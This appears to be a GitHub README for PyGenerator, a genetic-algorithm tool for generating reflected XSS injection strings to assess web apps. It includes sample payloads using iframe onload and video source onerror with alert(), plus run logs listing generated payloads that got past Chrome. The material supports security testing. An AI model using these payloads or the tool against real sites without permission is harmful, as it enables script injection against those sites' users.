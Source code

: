 ## PyGenerator using Genetic Algorithm.

It's tool is generating injection codes for assessment of Web Apps.  
Now, PyGenerator is beta version, it only supports reflective XSS.  
ex) <iframe/onload=alert();>size=<command, <video><source onerror=javascript:alert();>kind=

[more info](http://www.mbsd.jp/blog/takaesu_index.html)

## Description

PyGenerator uses Genetic Algorithm.  
You must prepair Chrome of web driver for execution.

#### Examples
```
Generator>python ga_main.py
Using Theano backend.
Using gpu device 0: GeForce GTX 965M (CNMeM is disabled, cuDNN 5110)

Launched : chrome 60.0.3112.90
-----1 generation result-----
  Min:-2.3
  Max:-0.4
  Avg:-0.996
-----2 generation result-----
  Min:-2.2
  Max:-0.5
  Avg:-0.964
-----3 generation result-----
  Min:-1.8
  Max:-0.5
  Avg:-0.975

・・・

-----444 generation result-----
  Min:-1.8
  Max:-0.4
  Avg:-0.779
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>onerror=alert(); : [149, 2, 180, 206, 196]
-----445 generation result-----
  Min:-1.8
  Max:0.1
  Avg:-0.828
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
-----446 generation result-----
  Min:-1.8
  Max:-0.4
  Avg:-0.826
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
・・・
```

## Requirement libraries
* pandas
* requests
* selenium

## Operation check environment
* Python 2.7.12 (Anaconda2)
* pandas 0.18.1
* requests 2.13.0
* selenium 3.4.3

## Licence

[Apache License 2.0](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/LICENSE)

## Author

[Isao Takaesu](https://github.com/13o-bbr-bbq)
